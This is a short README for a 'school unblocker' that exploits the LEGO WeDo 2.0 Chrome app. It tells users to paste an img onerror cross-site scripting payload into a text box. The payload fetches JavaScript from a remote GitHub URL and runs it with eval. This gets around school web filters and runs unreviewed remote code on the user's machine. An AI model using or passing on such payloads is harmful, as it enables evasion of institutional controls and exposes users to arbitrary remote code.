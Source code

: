 # Safe-Unblocker-For-School
This is a safe unblocker for school that uses LEGO Wedo 2.0 . The app uses your microphone, so make sure to turn that off if desired. Credits to @Blobby-Boi


Setup:


First, install WeDo 2.0 LEGO® Education from the Chrome Webstore.

Once you are in the project, click on the pencil in the top bar.

Then, click the green document button.

In the textbox, paste the following string:

img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '

Unblocked!

